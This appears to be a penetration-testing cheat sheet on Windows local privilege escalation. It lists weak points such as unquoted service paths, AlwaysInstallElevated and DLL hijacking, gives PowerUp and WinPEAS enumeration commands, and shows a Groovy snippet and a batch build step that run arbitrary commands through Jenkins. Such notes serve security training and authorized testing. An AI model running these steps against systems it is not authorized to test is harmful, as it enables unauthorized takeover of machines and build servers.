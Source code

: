 # Privilege Escalation - Local

There are various ways of locally escalating privileges on Windows box:&#x20;

* Missing patches
* Automated deployment and AutoLogon passwords in clear text
* AlwaysInstallElevated (Any user can run MSI as SYSTEM)&#x20;
* Misconfigured Services&#x20;
* DLL Hijacking and more&#x20;
* NTLM Relaying a.k.a. Won't Fix

## Automated Tools

We can use below tools for complete coverage:

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc" %}
PowerUp
{% endembed %}

{% embed url="https://github.com/enjoiz/Privesc" %}
Privesc
{% endembed %}

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}
WinPEAS
{% endembed %}

Get services with unquoted paths and a space in their name:

```powershell
#PowerUp
Get-ServiceUnquoted -Verbose
```

Get services where the current user can write to its binary path or change arguments to the binary:

```powershell
#PowerUp
Get-ModifiableServiceFile -Verbose
```

Get the services whose configuration current user can modify:

```powershell
#PowerUp
Get-ModifiableService -Verbose
```

Run all checks from:

```powershell
#PowerUp:
Invoke-AllChecks
#Privesc:
Invoke-PrivEsc
#PEASS-ng:
winPEASx64.exe
```

## Feature Abuse - Jenkins

If you have Admin access (default installation before 2.x), go to http://\<jenkins\_server>/script.

In the script console, Groovy scripts could be executed:

```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

If you don't have admin access but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter:

```powershell
powershell -c <command>
```

